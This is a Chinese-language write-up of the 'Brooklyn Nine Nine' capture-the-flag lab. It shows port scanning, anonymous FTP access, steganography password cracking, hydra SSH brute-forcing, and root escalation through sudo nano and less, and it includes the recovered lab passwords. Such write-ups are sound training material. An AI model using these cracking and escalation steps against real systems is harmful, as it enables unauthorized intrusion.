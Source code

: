 ```yaml
---
sidebar_position: 15
tags: [Easy, Linux, 匿名身份登陆-FTP, 隐写术, 密码破解-弱密码, SUDO]
title: Brooklyn Nine Nine
sidebar_label: Brooklyn Nine Nine
---
```

# Brooklyn Nine Nine
## 端口扫描
```bash
root@ip-10-10-55-94:~# rustscan -a 10.10.81.6 -u 5000 -p 21,22,80 -- -sTCV
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.108.139
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

## 21 - FTP
FTP 存在匿名身份登陆, 直接登陆查看其中内容

```bash
$ ftp 10.10.81.6                                                                           
Connected to 10.10.81.6.
220 (vsFTPd 3.0.3)
Name (10.10.81.6:jtz): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
```
查看获取到的文件内容: `note_to_jake.txt  : 告诉我们 jake 密码是弱密码`

```bash
$ cat note_to_jake.txt                                                                    
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

## 80 - HTTP
![20240529102751](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240529102751.png)

网页提示我们存在文件隐写术， 我们对照片进行密码破解， 并提取其中文件

```bash
root@ip-10-10-108-139:~# stegcracker brooklyn99.jpg `locate rockyou.txt`
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2023 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20650 passwords
Your file has been written to: brooklyn99.jpg.out
admin

root@ip-10-10-108-139:~# steghide extract -sf brooklyn99.jpg 
Enter passphrase: 
wrote extracted data to "note.txt".
root@ip-10-10-108-139:~# cat note.txt 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

## 后渗透

<details>

    <summary>第一种方式</summary>

    ### holt (第一种方式)
    利用得到的密码进行连接

```bash
$ ssh holt@10.10.81.6                                                                   
holt@10.10.81.6's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ id
uid=1002(holt) gid=1002(holt) groups=1002(holt)
```

### holt —> root (第一种方式)

我们发现用户具有 sudo 特权, 寻找到相关 Payload [nano#sudo](https://gtfobins.github.io/gtfobins/nano/#sudo)

```bash
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

</details>

<details>

    <summary>第二种方式</summary>

    我们的 FTP 中给出提示 jake 是一个弱密码， 我们进行暴力破解

```bash
root@ip-10-10-108-139:~# hydra -l jake -P `locate rockyou.txt` -t 6 ssh://10.10.81.6
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-08-05 04:16:52
[DATA] max 6 tasks per 1 server, overall 6 tasks, 14344398 login tries (l:1/p:14344398), ~2390733 tries per task
[DATA] attacking ssh://10.10.81.6:22/
[22][ssh] host: 10.10.81.6   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-08-05 04:17:25
```
### jake (第二种方式)
使用密码进行登录
![20240529103943](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240529103943.png)

### jake —> root (第二种方式)

接着我们发现用户具有 sudo 特权 [less|GTFOBins](https://gtfobins.github.io/gtfobins/less/#sudo)

```bash
jake@brookly_nine_nine:/home$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

```bash
jake@brookly_nine_nine:/home$ sudo /usr/bin/less /etc/profile
# id
uid=0(root) gid=0(root) groups=0(root)
```

</details>